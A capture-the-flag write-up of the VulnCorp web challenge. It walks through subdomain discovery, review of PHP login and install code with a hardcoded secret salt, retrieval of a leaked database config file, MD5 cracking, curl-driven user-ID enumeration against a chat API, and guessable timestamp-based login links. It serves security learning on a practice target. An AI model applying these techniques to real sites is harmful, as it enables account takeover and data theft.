

# VulnCorp

http://www.vulncorp.co.uk - 9 flags to find


OK usual trick of checking subs first

```
└─$ assetfinder -subs-only vulncorp.co.uk
www.vulncorp.co.uk
vulncorp.co.uk
vulncorp.co.uk
vulncorp.co.uk
```

So nothing with assetfinder, a fuzz with the subdomain word list did however bring back 3

- chat.vulncorp.co.uk
- prueba.vulncorp.co.uk
- webmail.vulncorp.co.uk

All of which redirect to their own login screens. OK so lets focus on the main domain for now. Quick content discovery reveals

- /meet-the-team
- /contact
- /admin
- /phpmyadmin

OK lets go through those 1 by 1

## Meet the team


First thing that pops out to me here is that the images are of the form /images/staff_photo_x where x is 1-10. So are there more hidden images in that directory? Quick test and no a range of 0-100 still only brings back 200 OK responses for 1-10

## Contact


Submitting the form gives the message

```
Error posting to message server, subscription expired
```

## Admin


The link points at the github repo https://github.com/template-manager/template-manager. Here's the readme contents of that

```
template-manager

Template manager is a basic system built in PHP which can be used to build your website and translate URL's to templates.

It also comes with an admin interface to control plugins

When installing this product it will need write access to the project root directory to save config file with database settings.
```

So a few interesting findings straight away in here

## sql-setup.php

```php
<?php

$sql_cmd = array();
$sql_cmd[] = "CREATE TABLE page ( id int(11) NOT NULL, url varchar(250) NOT NULL, template varchar(250) NOT NULL ) ENGINE=InnoDB DEFAULT CHARSET=latin1;";
$sql_cmd[] = "ALTER TABLE page ADD PRIMARY KEY (id);";
$sql_cmd[] = "ALTER TABLE page MODIFY id int(11) NOT NULL AUTO_INCREMENT, AUTO_INCREMENT=1;";
$sql_cmd[] = "INSERT INTO page (url, template) VALUES ('/', 'home')";
$sql_cmd[] = "CREATE TABLE user (id int(11) NOT NULL,username varchar(50) NOT NULL,password varchar(32) NOT NULL) ENGINE=InnoDB DEFAULT CHARSET=latin1;";
$sql_cmd[] = "ALTER TABLE user ADD PRIMARY KEY (id);";
$sql_cmd[] = "ALTER TABLE user MODIFY id int(11) NOT NULL AUTO_INCREMENT, AUTO_INCREMENT=1;";
```

So we know the DB tables

## /admin_template/admin.php

```php
function adminLogin( $username, $password ){
    $resp = false;
    $d = Db::get()->prepare('select * from user where username = ? and password = ? LIMIT 1 ');
    $d->execute( array( $username, md5( $password ) ) );
    if( $d->rowCount() == 1 ){
        $resp = true;
    }
    return $resp;
}

if( isset($_POST["username"],$_POST["password"]) ){
    $login_error = true;
    if( $login = adminLogin($_POST["username"],$_POST["password"]) ){
        $challenge = md5(rand().date("U").print_r( $_SERVER, true ).print_r( $_POST, true ).rand());
        $auth = md5( $challenge.'s4cre4log1nStinG4T3mpl4tem4Ngaer' );
        $str = json_encode( array(
            'challenge'  =>  $challenge,
            'auth'       =>  $auth
        ));
        $hash = base64_encode(urlencode($str));
        setcookie('token',$hash,time()+3600,'/');
        header("Location: /admin/dashboard");
        exit();
    }
}
```

So the adminLogin function just returns a boolean response on username/password match, this is a prepared statement so no SQLi here. It then creates a token cookie which is based upon an encoded JSON array with a challenge md5 hash (made up of a random int, the linux epoch date, server info and post request info) and an auth string which an md5 hash of the challenge plus the string 's4cre4log1nStinG4T3mpl4tem4Ngaer'. After that it does a redirect to /admin/dashboard.

## /admin_template/dashboard.php

```php
if( isset( $_COOKIE["token"] ) ){
    $json = json_decode( urldecode(base64_decode($_COOKIE["token"])), true );
    if( gettype($json) == 'array' ){
        if( isset($json["challenge"],$json["auth"]) ){
            if( $json["auth"] ==  md5( $json["challenge"].'s4cre4log1nStinG4T3mpl4tem4Ngaer' ) ){
                $logged_in = true;
                setcookie('token',$_COOKIE["token"],time()+3600,'/');
            }
        }
    }
}
if( !$logged_in ){
    header("Location: /admin");
    exit();
}
```

The dashboard page checks for the presence of this token cookie and that its value is correct before we are allowed to proceed. If not it redirects back to the login admin page.

## /admin_template/install.php

```php
function createConfigFile( $db_host, $db, $db_user, $db_pass ){
    $myfile = fopen(getcwd()."/../".date("YmdH").".cfg", "w");
    fwrite( $myfile,"DB_HOST=".$db_host.PHP_EOL."DB_DB=".$db.PHP_EOL."DB_USER=".$db_user.PHP_EOL."DB_PASS=".$db_pass);
    fclose($myfile);
}
if( isset( $_POST["db_server"],$_POST["db_db"],$_POST["db_user"],$_POST["db_pass"],$_POST["username"],$_POST["password"] ) ){
    if( $pdo = Db::checkDb( $_POST["db_server"],$_POST["db_db"],$_POST["db_user"],$_POST["db_pass"] ) ){
        Db::setup( $pdo, $_POST["username"], $_POST["password"] );
        createConfigFile(  $_POST["db_server"],$_POST["db_db"],$_POST["db_user"],$_POST["db_pass"] );
        header("Location: /admin");
    }
}
```

So this seems to be writing a config file with the DB details in it, the name of the config file takes a date format eg. '2022071706.cfg'. Perhaps this config file still exists?

And yes it does :) (2019100213.cfg) - here's flag 1

```
DB_HOST=localhost
DB_DB=vulncorp_www
DB_USER=vulncorp_www
DB_PASS=sezk87mjd3u7wp0p

[^FLAG^xxx^FLAG^]
```

This allows me in to phpmyadmin


Now obviously this is an MD5 hash, luckily crackstation had the answer for the value 'p4ssword'

So I can now login to admin and there is flag no.2


OK so that's probably the clue to start on the chat subdomain :)


OK so lets explore creating an account. Do that and I have access to the 'Staff Room'


Try clicking the 'Create New Room' button and I get the alert

```
Account has not yet been authorised
```

There's no indication this will ever work either as the alert is triggered by this javascript

```javascript
$('.createroom').click( function(){
    alert('Account has not yet been authorised');
    return false;
});
```

OK so the link to the staff room is on the path /863. Go in to the chat room and it looks like I can post a a message



Except I can't as there's a similar limitation

```javascript
$('.sendmessage').click( function(){
    alert('Account has not yet been authorised');
    return false;
});
```

OK so there's also a link to API documentation in the nav bar


OK so I have my own hash and my own API key, I also have the admin hash but not their API Key. What's the bet I can use my API key against their account?

Let's check my own first just to validate it

```
└─$ curl -v -H "Cookie: ctfchallenge=xxx;" -H "X-Token: ZGVjYWUyMThmYjhjZTJiMmIyMGFkMjExZTVjYWEzN2I0OTBjNWIzNzQ3NTU0Mzk2ZjkyNWUyNzA3MTkyYzU2ZjQzOGNmNTNjZGIyZDU1NzM0YjQ1MjMzZTJkYjVmMWI5OTU3YzZlMTZkMDQyNzU5ZGNhZjBjNDgzNGRiYTU2OWE=" http://chat.vulncorp.co.uk/api/ajvt01Ob/room
*   Trying 68.183.255.206:80...
* Connected to chat.vulncorp.co.uk (68.183.255.206) port 80 (#0)
> GET /api/ajvt01Ob/room HTTP/1.1
> Host: chat.vulncorp.co.uk
> User-Agent: curl/7.82.0
> Accept: */*
> Cookie: ctfchallenge=PREMIUMeyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTBkalJsY1hsa2VDSXNJbkJ5WlcxcGRXMGlPblJ5ZFdWOSIsInZlcmlmeSI6IjdkZWJlOTAxMjBiOTU5ZGI2MTAxZjI3MTMxZWNiOGExIn0=;
> X-Token: ZGVjYWUyMThmYjhjZTJiMmIyMGFkMjExZTVjYWEzN2I0OTBjNWIzNzQ3NTU0Mzk2ZjkyNWUyNzA3MTkyYzU2ZjQzOGNmNTNjZGIyZDU1NzM0YjQ1MjMzZTJkYjVmMWI5OTU3YzZlMTZkMDQyNzU5ZGNhZjBjNDgzNGRiYTU2OWE=
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< server: nginx/1.21.1
< date: Mon, 18 Jul 2022 09:56:59 GMT
< content-type: application/json
< set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulncorp.co.uk
< transfer-encoding: chunked
< 
* Connection #0 to host chat.vulncorp.co.uk left intact
[{"id":863,"name":"Staff Room"}]
```

Yup ok that works, now to substitute the admin hash

```
└─$ curl -v -H "Cookie: ctfchallenge=xxx;" -H "X-Token: ZGVjYWUyMThmYjhjZTJiMmIyMGFkMjExZTVjYWEzN2I0OTBjNWIzNzQ3NTU0Mzk2ZjkyNWUyNzA3MTkyYzU2ZjQzOGNmNTNjZGIyZDU1NzM0YjQ1MjMzZTJkYjVmMWI5OTU3YzZlMTZkMDQyNzU5ZGNhZjBjNDgzNGRiYTU2OWE=" http://chat.vulncorp.co.uk/api/b3XnP2gk/room
*   Trying 68.183.255.206:80...
* Connected to chat.vulncorp.co.uk (68.183.255.206) port 80 (#0)
> GET /api/b3XnP2gk/room HTTP/1.1
> Host: chat.vulncorp.co.uk
> User-Agent: curl/7.82.0
> Accept: */*
> Cookie: ctfchallenge=PREMIUMeyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSTBkalJsY1hsa2VDSXNJbkJ5WlcxcGRXMGlPblJ5ZFdWOSIsInZlcmlmeSI6IjdkZWJlOTAxMjBiOTU5ZGI2MTAxZjI3MTMxZWNiOGExIn0=;
> X-Token: ZGVjYWUyMThmYjhjZTJiMmIyMGFkMjExZTVjYWEzN2I0OTBjNWIzNzQ3NTU0Mzk2ZjkyNWUyNzA3MTkyYzU2ZjQzOGNmNTNjZGIyZDU1NzM0YjQ1MjMzZTJkYjVmMWI5OTU3YzZlMTZkMDQyNzU5ZGNhZjBjNDgzNGRiYTU2OWE=
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 403 Forbidden
< server: nginx/1.21.1
< date: Mon, 18 Jul 2022 09:58:36 GMT
< content-type: application/json
< set-cookie: ctfchallenge=xxx; Max-Age=2592000; Path=/; domain=.vulncorp.co.uk
< transfer-encoding: chunked
< 
* Connection #0 to host chat.vulncorp.co.uk left intact
["Account Hash does not match ApiKey Account"]
```

OK no, not against that endpoint anyway. 

Perhaps I'm getting ahead of myself, lets check what I can do with my own hash and the response I get from them

### GET /api/[account-hash]/room

```
[{"id":863,"name":"Staff Room"}
```

### POST /api/[account-hash]/room

```
["Cannot create Room as your account has not been authorised"]
```

### GET /api/[account-hash]/room/[room-id]

where room-id-863
```
{"id":863,"name":"Staff Room","messages":[]}
```

### POST /api/[account-hash]/room/[room-id]

where room-id-863
```
["Cannot create Room as your account has not been authorised"]
```

### GET /api/[account-hash]/user

```
[{"id":937,"disabled":false,"name":"No Name","email":"pxxx.sxxxxxx@xxx.com"}]
```

### POST /api/[account-hash]/user

```
["Cannot create User as your account has not been authorised"]
```

### GET /api/[account-hash]/user/[user-id]

```
{"id":937,"disabled":false,"name":"No Name","email":"pxxx.sxxxxxx@xxx.com"}
```

With all of these if I try switching out the hash for the admin hash I get the error message back

```
["Account Hash does not match ApiKey Account"]
```

All that is but for one, GET /api/[account-hash]/user/[user-id]

For example a GET on /api/b3XnP2gk/user/937 gives the response

```
["You do not have access to this user"]
```

OK so perhaps I can get the account details including the email address of the admin just by finding the correct id.

So I get hits for

8
```
{"id":8,"disabled":true,"name":"Lexi Irving","email":"lexi.irving.d22f95b538d6e147@vulncorp.co.uk"}
```

19
```
{"id":19,"disabled":false,"name":"Danni Latowski","email":"danni.latowski.4d74650af0cf9095@vulncorp.co.uk"}
```

50
```
{"id":50,"disabled":true,"name":"Dorothy Matthams","email":"dorothy.matthams.184cfd3b07028cd1@vulncorp.co.uk"}
```

77
```
{"id":77,"disabled":true,"name":"[^FLAG^xxx^FLAG^]","email":"flag@vulncorp.co.uk"}
```

OK cool I now have flag no.3 plus some accounts, one of which is not disabled. And there was a forgot password functionality which accepts email addresses. Lets check that out


When the form is submitted I get another message

```
If we found a matching email address we will send you an email with a link to log you in
```

Check my email and I get a link to follow 

```
Please go to the following link to reset your password: http://chat.vulncorp.co.uk/login/ajvt01Ob/937/1658151772
```

I follow the link and it signs me straight in, no password needed. It doesn't even ask me to reset the password.

The number at the end of the link looks suspicously like a linux epoch time to me! Quick check

```
Monday, 18 July 2022 13:42:52
```

Yup that's much too close to be a coincedence :)